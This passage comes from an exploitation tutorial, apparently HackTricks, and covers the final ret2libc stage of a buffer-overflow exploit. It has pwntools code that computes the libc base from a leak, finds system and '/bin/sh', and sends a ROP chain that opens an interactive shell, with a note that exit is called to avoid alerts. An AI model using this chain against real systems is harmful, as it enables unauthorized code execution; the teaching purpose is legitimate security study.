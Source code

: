 ### 4- Finding based libc address & exploiting

At this point we should know the libc library used. As we are exploiting a local binary I will use just:`/lib/x86_64-linux-gnu/libc.so.6`

So, at the begging of `template.py` change the libc variable to: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

Giving the path to the libc library the rest of the exploit is going to be automatically calculated.

Inside the `get_addr`function the base address of libc is going to be calculated:

```
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```

Then, the address to the function `system` and the address to the string *"/bin/sh"* are going to be calculated from the base address of libc and given the libc library.

```
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Finally, the /bin/sh execution exploit is going to be prepared sent:

```
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

##### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.
The last ROP (`rop1`) ended calling again the main function, then we can exploit again the overflow (that's why the `OFFSET` is here again). Then, we want to call `POP_RDI` pointing to the addres of *"/bin/sh"* (`BINSH`) and call system function (`SYSTEM`) because the address of *"/bin/sh"* will be passed as a parameter.
Finally, the address of exit function is called so the process exists nicely and any alert is generated.

This way the exploit will execute a */bin/sh* shell.

![img](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20%28255%29.png)

### 4(2)- Using ONE_GADGET
